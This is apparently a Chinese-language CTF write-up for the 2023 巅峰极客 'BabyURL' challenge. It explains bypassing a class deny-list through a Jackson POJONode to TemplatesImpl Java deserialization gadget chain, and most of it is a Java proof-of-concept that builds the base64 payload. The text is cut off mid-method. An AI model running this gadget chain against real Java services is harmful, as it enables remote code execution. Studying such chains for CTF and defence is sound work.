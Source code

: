 # Java-CTF(2)

  
  
&lt;!--more--&gt;  
# 2023巅峰极客 BabyURL  
## 0x01 解题记录  
`hack`路由下存在反序列化入口  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202411171549237.png)
加了一些过滤  
```java  
String[] denyClasses = new String[]{&#34;java.net.InetAddress&#34;, &#34;org.apache.commons.collections.Transformer&#34;, &#34;org.apache.commons.collections.functors&#34;, &#34;com.yancao.ctf.bean.URLVisiter&#34;, &#34;com.yancao.ctf.bean.URLHelper&#34;};  
```  
看一下 lib  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202411171550641.png)
这里存在`Jackson`直接打`POJONode`触发`TemplatesImpl`即可  
需要注意的点仍然是需要重写`com.fasterxml.jackson.databind.node.BaseJsonNode`类  
并且注释掉`writeReplace()`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202411171559769.png)
构造`exp`  
```java  
import com.fasterxml.jackson.databind.node.POJONode;    
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;    
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;    
import javassist.CannotCompileException;    
import javassist.ClassPool;     
import javassist.CtClass;    
import javassist.NotFoundException;    
    
import javax.management.BadAttributeValueExpException;    
import java.io.ByteArrayOutputStream;    
import java.io.IOException;    
import java.io.ObjectOutputStream;    
import java.lang.reflect.Field;    
import java.util.Base64;    
import java.util.UUID;    
    
public class Poc {    
    public static void main(String[] args) throws Exception{    
        byte[] code = getTemplates();    
        byte[][] codes = {code};    
        // TemplatesImpl    
        TemplatesImpl templates = new TemplatesImpl();    
        setFieldValue(templates, &#34;_name&#34;, &#34;useless&#34;);    
        setFieldValue(templates, &#34;_tfactory&#34;,  new TransformerFactoryImpl());    
        setFieldValue(templates, &#34;_bytecodes&#34;, codes);    
    
        POJONode node = new POJONode(templates);    
        BadAttributeValueExpException val = new BadAttributeValueExpException(null);    
        setFieldValue(val,&#34;val&#34;,node);    
        System.out.println(serialize(val));    
    }    
    public static String serialize(Object object) throws IOException {    
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();    
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);    
        objectOutputStream.writeObject(object);    
        return Base64.getEncoder().encodeToString(byteArrayOutputStream.toByteArray());    
```